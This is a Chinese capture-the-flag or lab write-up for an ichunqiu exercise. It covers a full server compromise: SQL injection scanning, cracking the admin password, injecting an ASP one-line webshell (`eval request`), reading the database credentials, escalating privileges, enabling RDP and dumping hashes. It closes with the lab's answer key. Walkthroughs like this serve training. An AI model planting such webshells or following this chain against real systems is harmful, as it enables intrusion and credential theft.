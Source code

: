 

### 1、扫描是否注入点

使用`明小子`-->`SQL注入`-->`批量扫描注入点` 扫描注入点

![](images/1.jpg)

### 2、暴力猜解管理员密码

![](images/2.jpg)

扫出`admin`表管理员`linhai`的密文密码`d7e15730ef9708c0`

![](images/3.jpg)

破解得明文密码`linhai19760812`

### 3、御剑后台地址

扫出后台地址为`http://www.test.ichunqiu/admin/login.asp`

![](images/4.jpg)

### 4、拿webshell

可以看到数据库以`.asp`文件存储 

![](images/5.jpg)

找个可以输入的地方注入一句话

在 `友情连接管理` 写入asp一句话

![](images/7.jpg)

```asp
<% eval request("a")%>
```

菜刀连接

![](images/8.jpg)

### 5、查看配置文件找出数据库密码

在`wwwroot\conn_old.asp`找出密码为`linhai123456woaini`

![](images/9.jpg)

### 6、抓管理员密码

套路和`我很简单...`练习一样

PR提权-->创建管理员用户-->开3389-->抓取密码hash值

![](images/10.jpg)

Administrators的hash为: `3C8D6C158F6FB3D1FDCFC2AFB2D1BE34:594B9CD2577A5AC2BE0CA522D5EC6ACE`(MMP不能复粘贴超恶心)

破解出密码:`88hvpebv`


### 7、所以答案是:
```
本实验中后台管理员`linhai`的密码是?: `linhai19760812`
本实验中论坛可否获得Webshell？: `不可以`
本实验中SQL Server数据库sa账号的密码是？: `linhai123456woaini`
获取管理目标服务器密码: `88hvpebv`
```

![](images/12.jpg)